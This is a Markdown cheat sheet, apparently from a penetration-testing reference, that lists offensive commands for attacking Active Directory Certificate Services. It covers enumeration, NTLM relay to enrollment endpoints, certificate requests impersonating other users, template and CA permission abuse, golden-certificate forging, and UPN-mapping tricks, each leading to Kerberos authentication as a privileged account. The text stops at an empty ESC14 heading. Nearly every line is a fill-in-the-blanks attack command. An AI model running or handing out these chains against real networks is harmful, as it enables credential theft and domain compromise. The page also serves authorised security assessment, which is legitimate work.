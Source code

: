 ```yaml
---
title: "ADCS"
description: "ADCS techniques and commands for Active Directory security assessment."
---
```

## Enumeration >>> Web enrollement || Vulnerable template || Vulnerable CA || Misconfigured ACL || Vulnerable PKI Object AC
- `certutil -v -dsTemplate`
- `certify.exe find [ /vulnerable]`
- `certipy find -u <user>@<domain> -p <password> -dc-ip <dc_ip>`
- `ldeep ldap -u <user> -p <password> -d <domain> -s <dc_ip> templates`
- Get PKI objects information
  - `certify.exe pkiobjects`
- Display CA information
  - `certutil -TCAInfo`
  - `certify.exe cas`

## Web Enrollment Is Up >>> Domain admin
- ESC8 >>> Pass the ticket >>> DCSYNC || LDAP shell
  - `ntlmrelayx.py -t http://<dc_ip>/certsrv/certfnsh.asp -debug -smb2support --adcs --template DomainController`
    - `Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt`
    - `gettgtpkinit.py -pfx-base64 $(cat cert.b64) <domain>/<dc_name>$ <ccache_file>`
  - `certipy relay -target http://<ip_ca>`
    - `certipy auth -pfx <certificate> -dc-ip <dc_ip>`

## Misconfigured Certificate Template
- ESC1 >>> Pass the certificate
  - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template '<vulnerable template name>'  -ca <ca_name> -upn <target_user>@<domain>`
  - `certify.exe request /ca:<server>\<ca-name>   /template:"<vulnerable template name>" [/altname:"Admin"]`
- ESC2 >>> ESC3
- ESC3
  - `certify.exe request /ca:<server>\<ca-name> /template:"<vulnerable template name>"`
    - `certify.exe request request /ca:<server>\<ca-name> /template:<template>  /onbehalfof:<domain>\<user> /enrollcert:<path.pfx> [/enrollcertpw:<cert-password>]`
  - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template '<vulnerable template name>'  -ca <ca_name>`
    - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template  '<vulnerable template name>'  -ca <ca_name> -on-behalf-of '<domain>\<user>' -pfx <cert>`
- ESC13 >>> Pass The Certificate (PKINIT)
  - `certipy req -u <user>@<domain> -p <password> -target <ca_server>  -template '<vulnerable template name>' -ca <ca_name>`
  - `certify.exe request /ca:<server>\<ca-name> /template:"<vulnerable template name>"`
- ESC15
  - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template '<version 1 template with enrolee flag>' -ca <ca_name> -upn <target_user>@<domain> --application-policies 'Client Authentication' #[PR 228]` >>> Pass the certificate (only Schannel)
  - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template '<version 1 template with enrolee flag>' -ca <ca_name> --application-policies 'Certificate Request Agent' # [PR 228]` >>> Pass the certificate
    - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template '<vulnerable template name>' -ca <ca_name> -on-behalf-of '<domain>\<user>' -pfx <cert>`


## Misconfigured ACL
- ESC4
  - write privilege over a certificate template
    - `certipy template -u <user>@<domain> -p '<password>' -template <vuln_template> -save-old -debug` >>> ESC1
    - restore template
      - `certipy template -u <user>@<domain> -p '<password>' -template <vuln_template> -configuration <template>.json`

- ESC7
  - Manage CA
    - `certipy ca -ca <ca_name> -add-officer  '<user>' -username <user>@<domain> -password <password> -dc-ip <dc_ip> -target-ip <target_ip>` >>> ESC7 Manage certificate
  - Manage certificate
    - `certipy ca  -ca <ca_name> -enable-template '<ecs1_vuln_template>' -username <user>@<domain> -password <password>`
      - `certipy  req -username <user>@<domain> -password <password> -ca <ca_name> -template '<vulnerable template name>' -upn '<target_user>'`
        - error, but save private key and get issue request
    - Issue request
      - `certipy ca -u <user>@<domain> -p '<password>' -ca <ca_name> -issue-request <request_id>`
        - `certipy req -u <user>@<domain> -p '<password>'  -ca <ca_name> -retreive <request_id>` >>> Pass the certificate

## Vulnerable PKI Object access control

- ESC5
  - Vulnerable acl on PKI >>> ACL
  - Golden certificate 
    - `certipy ca -backup -u <user>@<domain> -hashes <hash_nt> -ca <ca_name> -debug -target <ca_ip>`
      - `certipy forge -ca-pfx '<adcs>.pfx' -upn administrator@<domain>` >>> Pass the certificate

## Misconfigured Certificate Authority

- ESC6 @CVE@ >>> ESC1
  - Abuse ATTRIBUTESUBJECTALTNAME2 flag set on CA you can choose any certificate template that permits client authentication

- ESC11 >>> Pass the ticket >>> DCSYNC >>> Domain Admin
  - `ntlmrelayx.py -t rpc://<ca_ip> -smb2support -rpc-mode ICPR -icpr-ca-name <ca_name>` 
    - `Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt`
    - `gettgtpkinit.py -pfx-base64 $(cat cert.b64) <domain>/<dc_name>$ <ccache_file>`
  - `certipy relay -target rpc://<ip_ca> -ca '<ca_name>'`
    - `certipy auth -pfx <certificate> -dc-ip <dc_ip>`

## Abuse Certificate Mapping

- ESC9/ESC10 (implicit)
  - `certipy shadow auto -username <accountA>@<domain> -p <passA> -account <accountB>`
    - ESC9/ESC10 (Case 1)
      - `certipy account update -username <accountA>@<domain> -password <passA> -user <accountB> -upn Administrator` >>> reset accountB UPN
        - ESC9
          - `certipy req  -username <accountB>@<domain> -hashes <hashB> -ca <ca_name> -template <vulnerable template>`
        - ESC10 (case 1)
          - `certipy req  -username <accountB>@<domain> -hashes <hashB> -ca <ca_name> -template <any template with client auth>`
    - ESC10 (Case 2)
      - `certipy account update -username <accountA>@<domain> -password <passA> -user <accountB> -upn '<dc_name$>@<domain>'` >>> ESC10  Case1
  - reset accountB UPN
    - `certipy account update -username <accountA>@<domain> -password <passA> -user <accountB> -upn <accountB>@<domain>` >>> Pass The Certificate
      - [Kerberos Mapping] ESC9/ESC10(Case 1)
      - [Schannel Mapping] ESC9/ESC10 (Case 2)

- ESC14 (explicit)